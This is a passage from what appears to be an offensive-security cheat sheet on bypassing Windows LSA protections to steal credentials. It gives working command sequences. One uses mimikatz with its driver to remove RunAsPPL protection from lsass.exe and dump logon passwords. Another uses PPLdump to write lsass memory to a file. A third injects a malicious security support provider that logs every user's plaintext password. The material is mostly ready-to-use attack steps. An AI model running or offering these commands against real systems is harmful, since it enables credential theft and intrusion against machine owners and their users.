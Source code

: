 :warning: To take effect, conditions are required :

* Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
    * Adding requires lock
    * Removing requires signout
* Win10:
    * Adding requires signout
    * Removing requires signout
* Win2016:
    * Adding requires lock
    * Removing requires reboot

## LSA Protection Workaround

* LSA as a Protected Process (RunAsPPL)

  ```powershell
  # Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

  # Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
  # Now lets import the mimidriver.sys to the system
  mimikatz # !+

  # Now lets remove the protection flags from lsass.exe process
  mimikatz # !processprotect /process:lsass.exe /remove

  # Finally run the logonpasswords function to dump lsass
  mimikatz # privilege::debug    
  mimikatz # token::elevate
  mimikatz # sekurlsa::logonpasswords
  
  # Now lets re-add the protection flags to the lsass.exe process
  mimikatz # !processprotect /process:lsass.exe

  # Unload the service created
  mimikatz # !-


  # https://github.com/itm4n/PPLdump
  PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>
  PPLdump.exe lsass.exe lsass.dmp
  PPLdump.exe -v 720 out.dmp
  ```

* LSA is running as virtualized process (LSAISO) by **Credential Guard**

  ```powershell
  # Check if a process called lsaiso.exe exists on the running processes
  tasklist |findstr lsaiso

  # Lets inject our own malicious Security Support Provider into memory
  # require mimilib.dll in the same folder
  mimikatz # misc::memssp

  # Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
  ```
